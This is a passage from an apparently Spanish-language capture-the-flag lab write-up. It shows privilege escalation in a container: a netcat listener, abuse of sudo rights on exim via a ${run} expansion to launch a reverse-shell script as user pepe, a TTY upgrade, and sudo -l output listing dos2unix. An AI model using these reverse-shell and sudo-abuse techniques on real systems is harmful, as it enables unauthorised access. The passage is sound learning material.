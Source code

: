 ~~~ bash
nc -lvnp 443
~~~

Ejecutamos la reverse shell que creamos anteriormente abusando de la capacidad que tenemos de ejecutar `exim` como el usuario pepe de la siguiente forma

~~~ bash
sudo -u pepe exim -be '${run{/bin/bash -c "python3 /tmp/privesc.py"}}'
~~~

Y estaríamos conectados como el usuario `pepe`, ahora finalmente nos queda escalar a `root`

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 33484
pepe@5c050710a415:/$ id
uid=1002(pepe) gid=1002(pepe) groups=1002(pepe),100(users)
pepe@5c050710a415:/$ 
~~~


## Getting a Fully TTY

Hacemos un tratamiento de la TTY para poder hacer `Ctrl + C` y `Ctrl + L`, lo haremos cómodamente a través de `python3`, porque con el comando `script` la shell nos dice: "Hasta la próximaaaa..."

~~~ bash
pepe@5c050710a415:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
pepe@5c050710a415:/$ export TERM=xterm
export TERM=xterm
pepe@5c050710a415:/$ export SHELL=/bin/bash
export SHELL=/bin/bash
pepe@5c050710a415:/$ ^Z
[1]  + 212803 suspended  nc -lvnp 443
root@parrot exploits # stty raw -echo;fg
[1]  + 212803 continued  nc -lvnp 443
                                     reset xterm
pepe@5c050710a415:/$ stty columns 189 rows 44
~~~


## Sudoers Privileges - `dos2unix`

Listaremos nuestros privilegios `sudo` para ver si tenemos acceso a un recurso nuevo el cual podamos explotar para elevar nuestros privilegios

~~~ bash
pepe@5c050710a415:/$ sudo -l
Matching Defaults entries for pepe on 5c050710a415:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User pepe may run the following commands on 5c050710a415:
    (ALL : ALL) NOPASSWD: /usr/bin/dos2unix
~~~
